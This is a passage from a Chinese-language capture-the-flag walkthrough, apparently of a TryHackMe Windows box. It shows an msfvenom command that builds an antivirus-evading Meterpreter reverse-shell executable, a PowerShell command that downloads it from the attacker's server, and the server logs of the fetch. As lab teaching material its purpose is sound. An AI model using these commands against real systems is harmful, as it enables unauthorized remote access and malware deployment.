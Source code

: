    ```

+ 使用msfvenom创建一个Windows meterpreter反向shell，使用以下有效载荷：

   ```
   #这个有效载荷生成一个编码的x86-64反向TCP测量有效载荷。有效载荷通常被编码，以确保它们被正确传输，并避免反病毒产品。反病毒产品可能无法识别有效载荷，不会将其标记为恶意。

   msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
   ```
   ```
   ┌──(kali㉿kali)-[/usr/share/nishang/Shells]
   └─$ sudo msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.61.123 LPORT=4444 -f exe -o shell.exe
   [sudo] kali 的密码：
   [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
   Found 1 compatible encoders
   Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
   x86/shikata_ga_nai succeeded with size 381 (iteration=0)
   x86/shikata_ga_nai chosen with final size 381
   Payload size: 381 bytes
   Final size of exe file: 73802 bytes
   Saved as: shell.exe
   
   ┌──(kali㉿kali)-[/usr/share/nishang/Shells]
   └─$ ls              
   Invoke-ConPtyShell.ps1  Invoke-JSRatRundll.ps1  Invoke-PoshRatHttps.ps1    Invoke-PowerShellTcpOneLineBind.ps1  Invoke-PowerShellTcp.ps1         Invoke-PowerShellUdp.ps1  Invoke-PsGcatAgent.ps1  Remove-PoshRat.ps1
   Invoke-JSRatRegsvr.ps1  Invoke-PoshRatHttp.ps1  Invoke-PowerShellIcmp.ps1  Invoke-PowerShellTcpOneLine.ps1      Invoke-PowerShellUdpOneLine.ps1  Invoke-PowerShellWmi.ps1  Invoke-PsGcat.ps1       shell.exe
   ```

+ 使用与前一步相同的方法将生成的方向shell下载到机器上：

   ```
   powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
   ```
   + 下载：

      ```
      PS C:\users\bruce\desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.61.123:8000/shell.exe','shell.exe')"
      PS C:\users\bruce\desktop> dir


         Directory: C:\users\bruce\desktop


      Mode                LastWriteTime     Length Name                              
      ----                -------------     ------ ----                              
      -a---         12/6/2023   2:42 PM      73802 shell.exe                         
      -a---        10/25/2019  11:22 PM         32 user.txt     
      ```

   + 下载记录：

      ```
      ┌──(kali㉿kali)-[/usr/share/nishang/Shells]
      └─$ python3 -m http.server 8000
      Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
      10.10.178.7 - - [06/Dec/2023 09:30:17] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
      10.10.178.7 - - [06/Dec/2023 09:38:20] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
      10.10.178.7 - - [06/Dec/2023 09:42:33] "GET /shell.exe HTTP/1.1" 200 -
   ```